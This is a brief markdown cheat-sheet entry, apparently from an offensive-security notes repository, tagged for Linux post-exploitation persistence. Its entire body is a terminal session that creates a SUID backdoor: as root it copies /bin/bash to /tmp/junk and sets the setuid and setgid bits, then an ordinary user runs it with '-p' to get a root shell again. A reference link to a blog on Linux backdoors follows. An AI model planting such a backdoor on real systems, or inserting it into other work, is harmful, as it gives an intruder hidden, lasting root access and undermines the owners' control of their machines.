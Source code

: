 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - linux
---
```

# SUID

```
user@debian:~$ sudo su -
root@debian:/home/user# cp /bin/bash /tmp/junk
root@debian:/home/user# chmod +xs /tmp/junk
root@debian:/home/user# ls -l /tmp/junk
-rwsr-sr-x 1 root root 1190928 Oct 20 13:55 junk
root@debian:/home/user# exit
user@debian:~$ /tmp/junk -p
root@debian:/home/user# whoami
root
```

---
## References

- [Linux Backdoors and Where to Find Them](https://fahmifj.github.io/blog/linux-backdoors-and-where-to-find-them/)